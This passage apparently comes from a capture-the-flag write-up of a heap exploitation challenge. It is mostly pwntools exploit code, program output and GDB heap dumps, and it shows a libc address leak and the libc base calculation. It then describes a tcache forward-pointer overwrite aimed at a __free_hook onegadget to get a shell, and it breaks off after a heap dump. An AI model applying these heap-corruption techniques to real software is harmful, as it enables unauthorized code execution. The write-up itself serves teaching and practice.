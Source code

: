 ```
remove_question(6)
remove_question(7)
remove_question(8)
remove_question(9)
remove_question(2)
create_question(0x48, b'e' * 0x1f)
show_question(1)
```
```
b"\n> \x1b[0m\n[*] Question's id:"
roboquest_writeup.py:44: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(question_id))
[*] Switching to interactive mode
 [*] Question [1]: eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
\xa0\xacv^[\x7f

1. Create
2. Show
3. Modify
4. Remove
> $
```
In GDB/GEF, I can then derive the address of a libc function like system, determine the difference between that function and the leak, then use the leak to find the libc address of system, then the base address of libc.
```
print(target.recvuntil(b'e' * 0x1f + b'\n'))
libc_leak_bytes = target.recv(6)
libc_leak = u64(libc_leak_bytes + b'\x00' * 2)
print(hex(libc_leak))
system_libc = libc_leak - 0x39c750
print(hex(system_libc))
libc_base = system_libc - libc.symbols['system']
```
## Getting an Arbitrary Overwrite and Winning:

So, in order to get an arbitrary overwrite, I just need to use the method outlined earlier to get unlimited overwrite into the next chunk and use that to overwrite the forward pointer of a tcache bin to my location of choice. Since I now also have a libc leak, I can use the in order to derive the location of the free hook, overwrite it with a onegadget, and pop a shell. If you are unfamiliar with this technique, a basic summary is that most versions of libc feature structures called the free and malloc hook. If they are not set to 0, the program will attempt to call the function pointer stored thereing when free or malloc, respectively, is called. A onegadget is a single address in libc that should pop a shell if certain conditions are met, and overwriting and triggering one of those hooks with a working onegadget is a good way to pop a shell.

First, the program tends to error out if I leave my unsorted bin with corrupted metadata, so I fix it to have an appropriate size and create a new quote to fill the physical space.
```
modify_question(1, b'z' * 0x18 + p64(0x61) + p64(libc_leak)[:6])

create_question(0x58, b'0' * 0x58)
```
I then add more quotes in a size that I haven't used yet so that they'll be added sequentially at the end of my physical heap space, and I once again set up the scenario where I corrupt the size of the next chunk then remove it. Next, I remove the two two subsequent chunks in reverse order so that I have an fd pointer in easy reach of my overwrite. Here is the heap at that point:
```
gef➤  x/20gx 0x0000564dac56e7a0
0x564dac56e7a0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x564dac56e7b0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x564dac56e7c0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x564dac56e7d0: 0x7a7a7a7a7a7a7a7a      0x0000000000000051
```